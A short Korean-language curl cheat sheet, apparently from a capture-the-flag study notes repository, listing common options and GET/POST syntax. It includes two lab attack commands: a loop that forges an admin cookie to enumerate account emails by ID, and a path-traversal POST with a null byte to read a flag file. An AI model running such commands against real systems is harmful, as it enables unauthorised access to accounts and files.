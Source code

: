 curl
#
`useful command`
```
-s, --silent        Silent mode
--data-urlencode <data>  HTTP POST data url encoded
-X, --request <command>  사용할 요청 명령 지정
-I, --head          헤더 정보
```

#
`GET`
```
curl -G <url주소>
```
#
`POST`
```
curl -X POST -d <요청데이터> <url주소>
```

#
`10.129.95.191/cdn-cgi/login/admin.php는 id 번호로 접근할 수있다. curl명령어로 반복문을 돌려 사용중인 계정정보를 얻을 수 있었다.`

```
for i in {1..100}; do echo "===" $i "==="; curl -s -b "user=34322; role=admin" "http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id="$i | grep --color=no -i email | sed -e 's/<[^>]*>/ /g;s/Access ID  Name//g;s/Email//g;s/^[ ]*//;s/[ ]*$//'; done
```

![image](https://user-images.githubusercontent.com/61821641/149963242-251d0def-b740-489b-aaaf-4c97f859cab9.png)

#
[필터링되는 POST url에 output 받기](https://gitlab.com/sjcode101/write-up/-/blob/main/write-up/thm-fileinc.md)
```
curl -X POST http://10.10.62.101/challenges/chall3.php -d 'method=POST&file=../../../../etc/flag3%00' --output -
```
